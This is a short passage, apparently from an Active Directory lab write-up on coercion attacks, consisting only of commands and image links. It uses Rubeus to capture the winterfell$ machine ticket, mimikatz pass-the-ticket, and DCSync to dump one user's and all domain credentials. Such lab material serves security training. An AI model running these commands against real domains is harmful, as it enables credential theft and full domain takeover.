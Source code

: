 
```
C:\Users\vagrant\Desktop\Rubeus.exe monitor /interval:1 /targetuser:winterfell$ /nowrap
```

![](/images/coerce/Pasted%20image%2020250106105823.png)

```
[IO.File]::WriteAllBytes(“winterfell.kirbi”, [Convert]::FromBase64String(“base64-ticket”))
```

![](/images/coerce/Pasted%20image%2020250106110452.png)


```
mimikatz # kerberos::ptt winterfell.kirbi
lsadump::dcsync /domain:north.sevenkingdoms.local /user:eddard.stark
lsadump::dcsync /all
```

